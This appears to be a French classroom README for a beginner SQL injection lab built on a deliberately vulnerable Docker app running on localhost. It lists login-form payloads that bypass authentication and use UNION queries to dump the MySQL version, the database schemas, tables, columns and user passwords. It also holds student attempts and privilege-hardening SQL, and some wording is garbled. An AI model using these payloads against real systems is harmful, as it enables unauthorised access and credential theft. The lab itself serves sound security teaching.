

# Docker Vulnerable App SQL Injection

*Niveau: Débutant*


---

# Objectif

Tester la vulnérabilité d'une application en injectant du SQL.

---

# Notions à étudier

- Injection SQL

---

# Configuration

Les Fenelon sont stockés dans le fichier **int.sql** ligne **53**

Il est nécessaire d'aller modifier les 3words avant de démarrer le container.

---

# Lancement du container

```bash
docker-compose up --env-file .env -d
```

Accès à l'application vulnérable:



http://localhost:8080

---

## Example Payloads

1. Normal login to get users salary:
    - `username`: `james_kirk`
    - `password`: `kobayashi_maru`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT null,@@version#`
    - `password`: `anythingyouwant`

4. Dump all server databases
   - `username`: `' UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata; #`
   - `password`: `anythingyouwant`

5. Dump all tables in a database (here: capturethefenelon)
   - `username`: `' UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='capturethefenelon' #`
   - `password`: `anythingyouwant`

6. Dump all columns names in a table (here: users)
   - `username`: `' UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users' #`
   - `password`: `anythingyouwant`

7. Dump all data in a table (here: users)
   - `username`: `' UNION ALL SELECT NULL,concat(0x28,username,0x3a,first_name,0x3a,last_name,0x3a,password,0x29) FROM users #`
   - `password`: `anythingyouwant`

---

# Propositions des étudiants:

1. Le nom de l'utilisateur et le nom de la table **doivent** être connus

> On ne voit pas le code du fenelon!

```sql
fenelon'; SELECT * FROM users; --
```

SELECT table_name FROM information_schema.tables WHERE table_schema = 'capturethefenelon


Doivent le faire avec sqlmap
Fournir le TP sqlmap

https://www.advania.co.uk/insights/blog/mysql-sql-injection-practical-cheat-sheet/?lai_vid=yAN64pOwgSeOd&lai_sr=45-49&lai_sl=m

---

# Mettre à jour la base

Dans le container **03-docker-vulnerable-app-sqlinjection-mysql**, en tant que **root**:

```sql
update users set first_name='chien', last_name='racheter', password='supérieur' where username='fenelon';
select * from users where username = 'fenelon';
```
---

# Mise à jour

Faire un utilisateur dont les droits sont limités à du simple insert ou select, pas de update

```sql
-- Revoke Privileges on update to simple user: fenelon
REVOKE ALL ON capturethefenelon FROM 'fenelon'@'%';

-- Grant only SELECT privileges to user fenelon
GRANT SELECT ON capturethefenelon TO 'fenelon'@'%';
```